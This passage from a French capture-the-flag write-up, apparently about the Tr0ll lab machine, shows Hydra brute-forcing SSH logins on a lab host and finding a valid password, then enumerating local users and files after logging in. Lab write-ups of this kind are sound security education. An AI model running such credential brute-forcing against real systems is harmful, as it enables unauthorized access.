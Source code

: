 ```plain
[DATA] max 1 task per 1 server, overall 1 tasks, 10 login tries (l:10/p:1), ~10 tries per task
[DATA] attacking service ssh on port 22
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 8 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "vis1t0r" - pass "Pass.txt" - 9 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "overflow" - pass "Pass.txt" - 10 of 10 [child 0]
[22][ssh] host: 192.168.1.78   login: overflow   password: Pass.txt
[STATUS] attack finished for 192.168.1.78 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-08-22 08:08:37
```

Une fois l'accès obtenu on voit que plusieurs utilisateurs ont été créés :  

```plain
troll:x:1000:1000:Tr0ll,,,:/home/troll:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:104:112:ftp daemon,,,:/srv/ftp:/bin/false
lololol:x:1001:1001::/home/lololol:
overflow:x:1002:1002::/home/overflow:
ps-aux:x:1003:1003::/home/ps-aux:
maleus:x:1004:1004::/home/maleus:
felux:x:1005:1005::/home/felux:
Eagle11:x:1006:1006::/home/Eagle11:
genphlux:x:1007:1007::/home/genphlux:
usmc8892:x:1008:1008::/home/usmc8892:
blawrg:x:1009:1009::/home/blawrg:
wytshadow:x:1010:1010::/home/wytshadow:
vis1t0r:x:1011:1011::/home/vis1t0r:
```

Toutefois ils ne disposent pas de shells et seul *troll* dispose vraiment d'un dossier dans */home/*.  

Le nombre de fausses pistes se réduit ainsi à 0.  

On trouve un script Python que l'on ne peut malheureusement pas lire :  

```plain
overflow@troll:/$ ls -l /opt/
total 4
-rwx--x--x 1 root root 117 Aug 10 02:11 lmao.py
```

La liste des fichiers appartenant à *troll* montre peu d'intérêts :  

```plain
/srv/ftp/lol.pcap
/home/troll
/home/troll/.cache
/home/troll/.profile
/home/troll/.bash_history
/home/troll/.viminfo
```

Au boût d'un moment notre connexion SSH est coupée :  
